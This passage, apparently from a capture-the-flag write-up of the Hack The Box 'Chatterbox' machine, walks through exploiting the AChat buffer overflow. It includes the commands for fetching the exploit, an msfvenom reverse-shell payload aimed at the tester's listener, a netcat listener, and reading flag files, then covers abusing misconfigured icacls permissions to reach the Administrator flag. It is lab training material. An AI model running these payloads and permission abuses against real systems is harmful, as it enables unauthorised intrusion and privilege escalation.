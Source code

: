 To try to exploit the **AChat** service I must modify the exploit, first I will create a new shellcode with `msfvenom` to get a **Reverse Shell** and then I will change the **IP** of the target. Once the changes are done I can open port **443** of my machine with `nc` waiting for the remote connection and run with `python` (choosing the correct version) the exploit, this way I succeed to access the victim machine and the content of the first flag.

```bash
searchsploit -m windows/remote/36025.py
mv 36025.py achat_bof.py
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=443 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

cat achat_bof.py | grep -E 'msfvenom|10.10.10.74'
# :)
rlwrap -cAr nc -nlvp 443
python3 achat_bof.py
# :(
python2 achat_bof.py
# :)

whoami
hostname
ipconfig
dir /s user.txt
type C:\Users\Alfred\Desktop\user.txt
```

<br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/chatterbox_writeup/Chatterbox_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I do my basic system enumeration commands and surf the file system but I don't find much. After surfing for a while without much sense, I remember that many permissions can be misconfigured, so with `icacls` I try first to list the users and their permissions, in different folders and files. Logically in the flag of the **Administrator** user, the only one who has all the privileges is himself, but to my surprise the **Desktop** folder of the **Administrator** has assigned **Full Access** to the user **Alfred** (a **misconfiguration**). So with `icacls` itself I can assign the user **Alfred** full access to the **root.txt** flag and then access its content. Machine finally powned.

### **[icacls](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls){:target="_blank"}**:
> (I) - Inherit. ACE inherited from the parent container.
> (OI) - Object inherit. Objects in this container will inherit this ACE. Applies only to directories.
> (CI) - Container inherit. Containers in this parent container will inherit this ACE. Applies only to directories.
> F - Full access
